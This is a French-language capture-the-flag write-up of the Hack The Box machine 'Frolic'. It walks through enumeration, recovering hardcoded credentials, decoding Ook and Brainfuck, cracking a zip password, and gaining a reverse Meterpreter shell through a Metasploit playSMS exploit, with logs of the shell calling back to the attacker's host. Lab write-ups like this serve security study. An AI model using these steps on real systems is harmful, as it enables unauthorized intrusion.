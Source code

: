 # Access writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/12/6/1553333910-capture-du-2019-03-23-10-37-40.png)

Informations
----
    Ip : 10.10.10.111        Created by : felamos
    Level : Medium           Base Points : 20

Scan nmap
----
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
    |_  256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
    139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: FROLIC)
    445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: FROLIC)
    9999/tcp open  http        nginx 1.10.3 (Ubuntu)
    |_http-server-header: nginx/1.10.3 (Ubuntu)
    |_http-title: Welcome to nginx!
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_nbstat: NetBIOS name: FROLIC, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: frolic
    |   NetBIOS computer name: FROLIC
    |   Domain name: 
    |   FQDN: frolic
    |_  System time: 2019-03-23T14:57:44+05:30
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smbv2-enabled: Server supports SMBv2 protocol

Alors il y'a 4 ports open, le 22 pour le SSH, le 139 et 445 pour le Samba, et le port 9999 pour le HTTP qui tourne sous nginx. Une enumération par défault.

HTTP 9999
----
N'oubliez pas d'attribuer le domaine sur le fichier /etc/hosts. Pour justement avoir accéder à la box et au serveur HTTP sans problème.
[![forthebadge made-with-python](https://media.discordapp.net/attachments/556442801085218827/558951107431235596/unknown.png)

    root@Computer:~/htb/box/Frolic/gobuster# /usr/bin/gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://forlic.htb:9999/ -x php,html -o output_file

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://forlic.htb:9999/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlist/directory-list-2.3-medium.txt
    [+] Output file  : output_file
    [+] Status codes : 204,301,302,307,200
    [+] Extensions   : .php,.html
    =====================================================
    /admin (Status: 301)
    /test (Status: 301)
    /dev (Status: 301)
    /backup (Status: 301)
    /playsms (Status: 301)

Comme vous pouvez le voir il y'a un dossier /admin, /test, /backup, /dev et enfin /playsms nous allons un peu regarder le dossier /admin de plus près.

[![forthebadge made-with-python](https://cdn.discordapp.com/attachments/556442801085218827/558962528311443466/unknown.png)
Comme vous pouvez le voir, il y'a un fichier javascript /login.js donc dans ce fichier il y'a sans doute le nom d'utilisateur et le mot de passe.


    root@Computer:~/htb/box/Frolic/gobuster# curl http://10.10.10.111:9999/admin/js/login.js -s
    [...SNIP...]
    if ( username == "admin" && password == "superduperlooperpassword_lol"){
    alert ("Login successfully");
    [...SNIP...]
    
Donc nous avons l'utilisateur et le mot de passe pour se connecter sur la page d'administration et de voir concrètement les informations utiles sur cette page.

    root@Computer:~/htb/box/Frolic# curl http://forlic.htb:9999/admin/success.html
    ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... .....
    ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... .....
    ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! .....
    ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!!
    !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... .....
    ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?.
    ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
    ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... .....
    ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!!
    !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!!
    !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?!
    .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?..
    !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?.
    ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
    !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!!
    !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!!
    !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. .....
    ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!!
    !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!!
    !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .....
    ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
    ..!.! !!!!! !.?.

Ça ressemble beaucoup à Ook, donc nous allons déchiffrer cela sur un site directement et de voir le résultat final. un lien pour déchiffrer le message. https://www.dcode.fr/langage-ook.

Le message déchiffrer est : Nothing here check /asdiSIAJJ0QWE9JAS. Ça ressemble beaucoup à un chemin HTTP donc nous allons voir ça. Donc dans ce dossier il y'a rien de spécial, il y'a du base64 donc je vais essayer de trouver des fichiers assez spécifiques.

    root@Computer:~/htb/box/Frolic/gobuster# gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/ -x zip,html,php

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlist/directory-list-2.3-medium.txt
    [+] Status codes : 301,302,307,200,204
    [+] Extensions   : .zip,.html,.php
    =====================================================
    /crack.zip (Status: 200)
    /index.php (Status: 200)
    
Donc comme vous pouvez le voir il y'a un fichier crack.zip. Donc quand j'essaye de unzip le fichier, le fichier est sécurisé par un mot de passe donc je vais essayer de bruteforce ça pour trouver le mot de passe et de extraire les fichiers.

    root@Computer:~/htb/box/Frolic/gobuster# 7z l crack.zip 

    7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
    p7zip Version 9.20 (locale=fr_FR.UTF-8,Utf16=on,HugeFiles=on,4 CPUs)

    Listing archive: crack.zip

    --
    Path = crack.zip
    Type = zip
    Physical Size = 360

       Date      Time    Attr         Size   Compressed  Name
    ------------------- ----- ------------ ------------  ------------------------
    2018-09-23 13:44:05 .....          617          176  index.php
    ------------------- ----- ------------ ------------  ------------------------
                                       617          176  1 files, 0 folders
                                  
Donc il y'a un fichier php donc nous allons bruteforce le fichier et de voir les informations nécessaires.

    root@Computer:~/htb/box/Frolic/gobuster# fcrackzip --verbose --use-unzip --dictionary --init-password rockyou.txt crack.zip 
    found file 'index.php', (size cp/uc    176/   617, flags 9, chk 89c3)


    PASSWORD FOUND!!!!: pw == password
    
Donc le mot de passe c'est un mot de passe assez vulnérable donc je vais extraire le fichier zip avec la commande unzip. Du coup après avoir extraire le fichier nous avons un fichier php, et quand nous avons le fichier, le fichier est chiffré.

    root@Computer:~/htb/box/Frolic/gobuster# cat index.php|xxd -r -p|base64 -d > brainfuck 2>/dev/null                                                      
    root@Computer:~/htb/box/Frolic/gobuster# cat brainfuck 
    +++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
    ++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
    <]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
    ++..<
    
Donc concrètement pour déchiffrer cela c'est du brainfuck, c'est un langage de programmation donc pour déchiffrer il faut aller sur le site https://www.dcode.fr/langage-ook.
Brainfuck déchiffrer : idkwhatispass

Donc après avoir chercher pendant quelques temps, j'ai réussis à me connecter en tant que admin sur /playsms donc pour la connexion.

Username : admin</br>
Password : idkwhatispass<br/>

Donc nous pouvons maintenant attaquer pour avoir notre shell grâce à metasploit, car il y'a un exploit spécifique pour playsms, je vous ferais un petit tutorial pour vous montrez comment faire ça manuellement. L'exploit se nomme : exploit/multi/http/playsms_uploadcsv_exec

Shell > User.txt
----
    [*] Started reverse TCP handler on 10.10.14.98:4444 
    [+] Authentication successful: admin:idkwhatispass
    [*] Sending stage (38247 bytes) to 10.10.10.111
    [*] Meterpreter session 1 opened (10.10.14.98:4444 -> 10.10.10.111:45836) at 2019-03-23 14:00:25 +0100

    meterpreter > shell
    Process 2062 created.
    Channel 0 created.
    python -c "import pty;pty.spawn('/bin/bash')"
    www-data@frolic:~/html/playsms$ cd /home/ayush
    www-data@frolic:/home/ayush$ wc -c user.txt
    33 user.txt
    
kopijopijiop
    
    
